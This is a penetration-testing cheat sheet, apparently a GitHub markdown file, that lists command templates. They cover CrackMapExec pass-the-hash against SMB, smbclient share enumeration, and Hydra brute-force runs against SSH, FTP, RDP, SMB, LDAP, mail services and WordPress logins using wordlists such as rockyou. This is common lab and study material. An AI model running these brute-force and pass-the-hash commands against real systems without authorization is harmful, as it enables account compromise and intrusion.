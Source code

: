  # Crackmapexec
## With Password
crackmapexec smb $ip -u '' -p '' --$Flags

## Pass the hashes
crackmapexec smb $ip -u '' -H '' --$Flags

## JohnHammond CME to Self Hosted AD DC
https://www.youtube.com/watch?v=WPnFnPkOWIg&list=PL1H1sBF1VAKVoU6Q2u7BBGPsnkn-rajlp&index=6


# Smbclient
## Enumerate shares
smbclient -L \\$ip\Share -U ''
## Enumerate more with Known Username and password 
smbclient \\$ip\$share_name -U '' -P ''

# Hydra
### BruteForce with username and password
hydra -<with l know username L for wordlist> '' -p< or P> '' ssh://$ip or ftp://$ip

### Http post form
hydra -l '' -p '' http://$ip_Or_domain/ http-post-form ":/"

### Others
| Command | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| hydra -P password-file.txt -v $ip snmp                                                                                                    | Hydra brute force against SNMP                       |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                       | Hydra FTP known user and rockyou password list       |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                              | Hydra SSH using list of users and passwords          |
| hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh                                                                         | Hydra SSH using a known password and a username list |
| hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt                                                                                         | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                          | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                         | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                 | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                           | Hydra attack Windows Remote Desktop with rockyou     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                             | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f | SMB Brute Forcing |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f | LDAP Brute Forcing |

# BloodHound
Installation: https://www.youtube.com/watch?v=yp8fw72oQvY&list=PL1H1sBF1VAKVoU6Q2u7BBGPsnkn-rajlp&index=7
